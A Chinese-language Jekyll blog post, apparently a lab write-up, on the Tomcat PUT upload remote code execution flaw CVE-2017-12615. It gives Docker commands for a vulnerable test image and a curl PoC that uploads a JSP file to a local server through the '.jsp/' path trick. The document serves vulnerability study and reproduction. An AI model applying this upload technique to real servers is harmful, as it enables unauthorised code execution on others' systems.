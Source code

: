 ```yaml
---
layout: post
title: "Tomcat 远程代码执行漏洞 (CVE-2017-12615)"
date: 2017-09-21 00:47:08 +0800
image: '/assets/img/'
description: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)'
main-class: 'hole'
color: '#B31917'
tags:
- Tomcat
- RCE
categories:
- Tomcat
twitter_text: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)环境'
introduction: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)环境'
---
```


### 漏洞信息

 * [Fixed in Apache Tomcat 7.0.81](http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81)
 * [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
 
 > 根据测试发现 7.0.81 并未修复完全，可绕过，具体参考下方paper链接

 * [云鼎实验室：Tomcat 远程代码执行漏洞分析（CVE-2017-12615）及补丁 Bypass](https://paper.seebug.org/398/)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:t_tomcat_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8080:8080 medicean/vulapps:t_tomcat_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 向目标发起 PUT 请求，注意后缀为 `.jsp/`
    ```
$ curl -X PUT "http://127.0.0.1:8080/123.jsp/" -d '<%out.println("test");%>'
    ```

2. 然后访问目标地址 `http://127.0.0.1:8080/123.jsp`,  即可看到输出了 `test`

### 参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
